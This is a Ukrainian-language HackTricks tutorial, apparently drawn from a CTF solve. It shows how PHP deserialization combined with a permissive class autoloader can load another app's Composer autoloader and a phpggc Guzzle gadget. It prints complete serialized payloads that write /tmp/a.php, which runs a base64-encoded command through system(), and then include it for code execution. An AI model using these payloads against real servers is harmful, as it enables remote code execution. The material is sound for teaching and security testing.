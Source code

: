 # PHP - Десеріалізація + Автозавантаження класів

{{#include ../../banners/hacktricks-training.md}}

Спочатку вам слід перевірити, що таке [**Автозавантаження класів**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP десеріалізація + spl_autoload_register + LFI/Gadget

Ми знаходимося в ситуації, коли знайшли **десеріалізацію PHP у веб-додатку** без **жодної** бібліотеки, вразливої до гаджетів всередині **`phpggc`**. Однак у тому ж контейнері була **інша веб-програма composer з вразливими бібліотеками**. Тому метою було **завантажити завантажувач composer іншого веб-додатку** і зловживати ним, щоб **завантажити гаджет, який експлуатуватиме цю бібліотеку з гаджетом** з веб-додатку, вразливого до десеріалізації.

Кроки:

- Ви знайшли **десеріалізацію**, і в поточному коді програми **немає жодного гаджета**
- Ви можете зловживати функцією **`spl_autoload_register`** на кшталт наступної, щоб **завантажити будь-який локальний файл з розширенням `.php`**
- Для цього ви використовуєте десеріалізацію, де ім'я класу буде всередині **`$name`**. Ви **не можете використовувати "/" або "."** в імені класу в серіалізованому об'єкті, але **код** **замінює** **підкреслення** ("\_") **на слеші** ("/"). Тож ім'я класу, таке як `tmp_passwd`, буде перетворено на `/tmp/passwd.php`, і код спробує його завантажити.\
Приклад **гаджета** буде: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
> [!TIP]
> Якщо у вас є **завантаження файлів** і ви можете завантажити файл з **розширенням `.php`**, ви можете **безпосередньо зловживати цією функціональністю** і отримати вже RCE.

У моєму випадку нічого подібного не було, але всередині **того ж контейнера** була інша веб-сторінка композера з **бібліотекою, вразливою до гаджета `phpggc`**.

- Щоб завантажити цю іншу бібліотеку, спочатку потрібно **завантажити завантажувач композера тієї іншої веб-аплікації** (оскільки завантажувач поточної аплікації не зможе отримати доступ до бібліотек іншої). **Знаючи шлях до аплікації**, ви можете досягти цього дуже легко за допомогою: **`O:28:"www_frontend_vendor_autoload":0:{}`** (У моєму випадку завантажувач композера був у `/www/frontend/vendor/autoload.php`)
- Тепер ви можете **завантажити** інший **завантажувач композера аплікації**, тож настав час **`згенерувати phpgcc`** **payload** для використання. У моєму випадку я використовував **`Guzzle/FW1`**, що дозволило мені **записувати будь-який файл у файловій системі**.
- ПРИМІТКА: **Згенерований гаджет не працював**, щоб він працював, я **модифікував** цей payload **`chain.php`** phpggc і встановив **всі атрибути** класів **з приватних на публічні**. Якщо ні, після десеріалізації рядка атрибути створених об'єктів не мали жодних значень.
- Тепер у нас є спосіб **завантажити інший завантажувач композера аплікації** і мати **phpggc payload, який працює**, але нам потрібно **зробити це в ТОМУ Ж ЗАПИТІ, щоб завантажувач був завантажений, коли гаджет використовується**. Для цього я надіслав серіалізований масив з обома об'єктами, як:
- Ви можете побачити, **спочатку завантажується завантажувач, а потім payload**.
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
- Тепер ми можемо **створити та записати файл**, однак користувач **не міг записувати в жодну папку всередині веб-сервера**. Отже, як ви можете бачити в payload, PHP викликає **`system`** з деяким **base64**, який створюється в **`/tmp/a.php`**. Потім ми можемо **повторно використовувати перший тип payload**, який ми використовували як LFI, щоб завантажити завантажувач composer іншого веб-додатку **для завантаження згенерованого `/tmp/a.php`** файлу. Просто додайте це до гаджета десеріалізації:
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
**Резюме корисного навантаження**

- **Завантажити автозавантаження composer** іншого веб-додатку в тому ж контейнері
- **Завантажити гаджет phpggc** для зловживання бібліотекою з іншого веб-додатку (первісний веб-додаток, вразливий до десеріалізації, не мав жодного гаджета у своїх бібліотеках)
- Гаджет **створить файл з PHP навантаженням** в /tmp/a.php з шкідливими командами (користувач веб-додатку не може записувати в жодну папку жодного веб-додатку)
- Остання частина нашого навантаження буде використовувати **завантажити згенерований php файл**, який виконає команди

Мені потрібно було **викликати цю десеріалізацію двічі**. У моєму тестуванні, перший раз файл `/tmp/a.php` був створений, але не завантажений, а вдруге він був правильно завантажений.

{{#include ../../banners/hacktricks-training.md}}
